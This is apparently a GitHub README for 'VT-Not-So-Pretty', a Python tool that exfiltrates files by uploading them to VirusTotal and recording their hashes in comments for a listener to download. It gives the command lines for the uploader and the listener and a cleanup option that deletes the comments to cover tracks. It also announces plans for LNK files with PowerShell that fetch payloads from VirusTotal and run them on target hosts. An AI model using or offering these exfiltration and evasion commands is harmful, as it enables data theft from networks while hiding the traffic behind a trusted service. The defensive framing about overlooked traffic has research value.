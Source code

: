 # VT-Not-So-Pretty

Python data exfiltration tool that uses VirusTotal as its infrastructure.

As defenders we are often overwhelmed by the sheer amount of network traffic in a network and overlook traffic made to well known trusted sites without any known suspicious functionalities (like file/software sharing sites). And what other site is more well known and trusted to defenders them virustotal.  

My main goal was to use virustotal upload and download functionalities to transfer files back and forth without the need to use our own infrastructure, and breaking the diamond model from the defenders perspective. 

## Usage Example
The tool is pretty simple just provide it a path, your VT API key, and a hash of a file (already uploded to VT) to which you want the hashes of the files exfiltrated to be written, to be able to download then later on.    

```
python .\Vt-Not-So-Pretty.py -f "PATH_TO_EXFIL" -k YOUR_API_KEY -c HASH_TO_COMMENT_ON
```
Alternatively you can enter this when prompted:

![Vy-Not-So-Pretty](https://github.com/user-attachments/assets/780fec17-50da-4aef-a91e-d3682be5c573)


After done uploading the files to VT all you have to do is just run listener as follow:

```
python VT-Listener.py -f C:\Path\to\save\files\to -k "YOUR_PREMIUM_API_KEY" -c "HASH_TO_CHECK_COMMENTS_ON"
```
Or you can also enter this when prompted:

![image](https://github.com/user-attachments/assets/9b8454a3-d486-4ef8-866d-a1b53a21c081)

## Optional Cleanup
If you wish to delete the comments after file download (to cleanup as much as possible), all you have to do is provide the listener the api key used by the first tool as follow:
```
python VT-Listener.py -f C:\Path\to\save\files\to -k "YOUR_PREMIUM_API_KEY" -c "HASH_TO_CHECK_COMMENTS_ON -d "THE_API_KEY_USED_4_UPLOAD"
```

## Main Drawbacks:

1. The file size to transfer are limited to 650 MB per file - Could be solved with proper files splitting and compression.

2. Premium Subscription - In order to download files from VT premium subscription is needed, which could be pretty expensive.

## Disclaimer

This is an ongoing project, and in the future, I am planning to add more tools to it, for other uses as well, like for delivey using LNK files that contain a powershell code that download (or read in memory) file from VT and runs them on the target host.

## Upcoming Updates:
Changing the endpoint to upload file larger then 35 MB.


